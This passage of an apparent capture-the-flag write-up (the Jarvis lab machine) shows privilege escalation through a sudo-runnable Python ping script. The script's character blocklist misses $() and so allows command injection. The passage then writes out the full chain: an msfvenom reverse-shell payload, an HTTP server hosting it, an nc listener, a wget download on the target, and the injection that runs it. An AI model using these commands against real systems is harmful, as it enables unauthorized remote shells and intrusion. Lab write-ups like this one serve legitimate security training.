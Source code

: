 Looking at the sudo permissions of the current `www-data` user, an interesting value is seen:

```bash
sudo -l
```

![sudo](./jarvis/sudo.png)

This means the `www-data` user can run the script `/var/www/Admin-Utilities/simpler.py` as the user `pepper` without a password. Looking at the code for the `/var/www/Admin-Utilities/simpler.py` script shows an interesting function:

```python
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

Interestingly, the script is missing `$()` in the list `forbidden`. This means, it is possible to have Bash execute a command as long as it does not use the characters in the list `forbidden`. Generate another reverse shell and use it to get a shell as `pepper`:

```bash
# on kali, generate payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.23 \
         LPORT=4040 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -f elf \
         -o bubba.pepper.elf
# on kali, host the payload
python3 -m http.server 7777
# listen for callback
nc -nvlp 4040
# on target, download new shell
wget http://10.10.14.23:7777/bubba.pepper.elf -P /tmp/ && chmod +x /tmp/bubba.pepper.elf
# use sudo to execute shell as pepper
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
$(/tmp/bubba.pepper.elf)
```

![simpler](./jarvis/simpler.png)
